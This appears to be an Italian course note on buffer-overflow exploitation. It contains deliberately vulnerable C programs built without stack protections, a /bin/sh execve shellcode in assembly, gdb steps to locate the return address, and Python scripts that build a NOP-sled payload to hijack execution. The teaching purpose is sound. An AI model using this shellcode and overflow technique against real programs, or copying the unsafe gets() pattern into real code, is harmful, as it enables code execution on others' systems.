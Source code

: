```yaml
---
id: '11'
lezione: "20231102"
title: "Memory error exploits - Smashing the stack - Esercizi"
author: "Sam. K."
keywords: 
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Memory error exploits - Smashing the stack - Esercizi"

## Esercizio 1
~~~c
#include <stdio.h>
// Task: stampare "You Win!"
// Senza sapere l'indirizzo di buf
int main(){
    int cookie;
    char buf[80]; // abbiamo bug e cookie invertiti

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    // Inoltre entrare qua dentro è difficile anche usando la tecnica del lez 10,
    // è difficile perché ci sono caratteri come \x00 \x0a (null, newline) sono difficile da inserire dentro lo stack tramire input di gets()
    // anche se riusciamo ad entrare è inutile perché dice "you loose"
    // tecnica da usare "shellcode"
    if(cookie == 0x000d0a00) 
        printf("You Loose!\n");

    return 0;
}
~~~
## Passi per risolvere il problema
1. Compilare il programma C `gcc -g -z execstack -fno-stack-protector -o ex1.out ex1.c`
2. Compilare Shellcode (assembly) `gcc -nostdlib -static -o shellcode.out shellcode.s` ed estrarre la parte di codice **`objcopy -O binary --only-section=.text shellcode.txt shellcode.out`**. 
3. Creare un payload per calcolare l'offset per arrivare a return address. 
4. Trovare l'indirizzo del buffer a partire dal payload di prima.
5. Creare un secondo payload integrando il shellcode creato in precedenza e return address all'inizio del nostro buffer.

### Preparare un shellcode?
[shell-storm per trovare shellcode](https://shell-storm.org/shellcode/index.html)

* Usiamo una shellcode che chiama una shell `/bin/sh` tramite una `syscall` di tipo `execve`.

```s
# Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode
# Date: 2010-04-26
# Author: zbt
# Tested on: x86_64 Debian GNU/Linux

# execve("/bin/sh", ["/bin/sh"], NULL)

.intel_syntax noprefix
.global _start
.section .text

_start:
    xor     rdx, rdx
    mov     qword rbx, 0x68732f6e69622f2f # '//bin/sh'
    shr     rbx, 0x8
    push    rbx
    mov     rdi, rsp
    push    rax
    push    rdi
    mov     rsi, rsp
    mov     al, 0x3b # syscall execve
    syscall
```
**IMPORTANTE**:
* `//bin/sh` perché riuscire ad aprire una shell significa che posso fare quasi tutto. 
* Uso doppio slash `//bin/sh` per crearmi la fine della stringa (una stringa deve avere `\x00` per segnalare dove termina), per questo dopo uso `shr rbx, 0x8` shifto di 8 bit a destra che crea un byte `00` a sinistra (perché siamo in little-endian).
* Questo lo faccio dentro lo stack perché quando il programma legge con `gets()` oppure con `scanf()` l'input appena trova un byte di tipo `\x00` oppure `\x0a` smette di leggere, quindi l'input che mandiamo con shellcode non può contenere `\x00` oppure `\x0a`. Questo vuol dire che lo dobbiamo crearlo indirettamente.  
* Bisogna prendere solo la parte `.text` del codice:
  
  `objcopy -O binary --only-section=.text <input> <output.txt>`.
### Come fa un antivirus capire che è un shellcode?
Capire se un file binario è un shell code: `strings <code.text>` stampa la parte leggibile del file binario. Quindi, trovare una stringa che porta a /bin/shell dice che è probabilmente è un shellcode.

### Trovare Return Address - secondo convenzioni
Come faccio trovare RA? so che la variabile `buf` è di 80 bytes (perché `char buf[80]`) e poi c'è la variabile `cookie` quindi altri 4 byte (int cookie 4 bytes) da cui devo arrivare all'indirizzo di ritorno `RA`. Io so che l'istruzione `ret` fa pop dallo stack l'indirizzo di memoria dove è allocato prossima l'istruzione. 
* Metodo semplice: 
  * riempio il buffer con 80 valori `A*80` e poi altri valori come `AAAABBBBCCCCDDDD` che ripetono 4 volte (perché quando visualizziamo ci fa vedere 4 byte alla volta che semplifica il conteggio)
  * controlliamo con un breakpoint (in gdb) all'istruzione `ret` cosa abbiamo in dentro il `rsp`. In questo modo posso calcolare quanti byte ci sono dal buffer al RA.
    * Per settare il breakpoint all'istruzione `ret` di `main` faccio `disas main` e `break main+<number>` nel mio caso `break *main+87`.

NOTE: per settare breakpoint ad un indirizzo preciso bisogna usare `*`. es. `break *main+87` dove `main` è un label, oppure `break *0x1234abcd` indirizzo diretto.

Per trovare l'indirizzo oppure l'offset fino all'istruzione `ret` uso `disas main` il quale disassebmla la funzione main.

![Disassemble main](assets/images/disas%20main.png)

#### Il payload per trovare RA

```py
# Creo un payload
with open('payload','wb') as f: # 'wb' write bytes
    f.write(b'\x90'*80)
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII')
    
print("Payload created!")
```
Per avviare in gdb il programma con il payload `run < payload.txt`

**IMPORTANTE**: La funzione che chiama `call` alla funzione `main` del nostro programma `C` è **`libc_start_main`**, quindi quando `main` fa `ret` "presumibilmente" ritorna a `libc_start_main`.

Adesso controlliamo lo stack pointer all'istruzione `ret` e notiamo che nel `rsp` abbiamo una parte del nostro payload `0\x47` e `\x48` cioè la `GGGG` e `HHHH`.

Quindi da questo capiamo che ci serve una stringa lunga `80 + 6*4 = 104` byte per arrivare al return address. (`6*4 = "AAAABBBBCCCCDDDDEEEEFFFF"` ci fermiamo prima di "`GGGG`").

![RA position](assets/images/return%20address%20position.png)

**Quindi payload è fatto da 80 byte per istruzioni 24 byte casuali seguito da l'indirizzo dell'inizio buffer.**

#### Come troviamo l'indirizzo del buffer? 
Si inserisce una stringa particolare e controlliamo dove inizia dentro lo stack.

![Indirizzo del buffer](assets/images/indirizzo%20del%20buffer.png)

Controllando i valori nello stack in `gdb` (in questo caso siamo all'istruzione `ret`) troviamo che abbiamo una sequenza di 80 `\x90` che rappresenta l'input che abbiamo immesso al buffer. Quindi l'indirizzo del buffer è `0x7fffffffddb8+8 = 0x7fffffffddc0`. Infatti il printf all'inizio aveva stampato

![Printf indirizzo buf](assets/images/prinf%20indirizzo%20buf.png)

`x/64x $rsp-128 ` permette di visualizzare 64 byte in esadecimale dello stack a partire dallo $rsp-128.

NOTE: Usiamo l'istruzione `nop` per mettere un offset dentro il buf (per evitare di fare conti con indirizzi).

#### Payload finale per l'attacco vero e proprio
```py
shellcode = ""

with open('shellcode.txt','rb') as f:
    shellcode = f.read()

with open('payload2','wb') as f:
    f.write(b'\x90'*8)
    f.write(shellcode)
    f.write(b'\x90'*(80-8-len(shellcode)))
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFF')
    f.write(b'\xc0\xdd\xff\xff\xff\x7f') # 0x7f ff ff ff dd c0 insert address in bytes (little-endian)
    f.close()

print("Payload created!")
```

`gcc -z execstack` permette di avviare il codice (istruzioni assembly) dallo stack.

**IMPORTANTE**: In gdb settare **`set follow-exec-mode new`** permette di avviare altri programmi a partire dal programma che stiamo debuggando, in questo modo fa debugging anche del nuovo programma. (dopo che programma principale termina fare `run` per avviare il secondo programma)

![You win](assets/images/buffer%20overflow%20shellcode%20you%20win.png)

`ghidra` per decompilare un programma C già compilato.

`checksec <file_binario>` permette di determinare le protezioni sicurezza abilitati nel file binario (programma compilato).

## Esercizio 2 - buffer molto piccolo
```c
#include <stdio.h>

int main(){
    int cookie;
    char buf[4];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if(cookie == 0x000d0a00)
        printf("You Loose!\n");

    return 0;
}
```
